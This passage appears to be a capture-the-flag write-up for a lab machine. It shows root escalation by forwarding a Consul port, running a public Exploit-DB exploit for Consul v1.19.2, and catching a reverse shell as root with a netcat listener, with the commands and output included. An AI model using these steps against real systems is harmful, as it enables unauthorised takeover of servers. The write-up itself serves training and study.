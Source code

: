 Forward it to my machine:

```zsh
❯ ssh -L 8500:localhost:8500 ron@heal.htb
```

Check to see if there is anything exploitable. Found that this is `Consul v1.19.2`

![[Pasted image 20241221141049.png]]

### <span style="color: #3498eb;">Exploit </span>

After some searching, this exploit is still available in version 1.19.2.
`https://www.exploit-db.com/exploits/51117`
 ```zsh 
python3 exploit.py <rhost> <rport> <lhost> <lport> <acl_token>
```

```zsh
❯ python3 exploit.py 127.0.0.1 8500 10.10.14.56 9981 0

[+] Request sent successfully, check your listener

```

Shell as root:
```zsh
└─$ rlwrap nc -lnvp 9981
listening on [any] 9981 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.11.46] 36274
bash: cannot set terminal process group (2231): Inappropriate ioctl for device
bash: no job control in this shell
root@heal:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

![[Pasted image 20241221143625.png]]
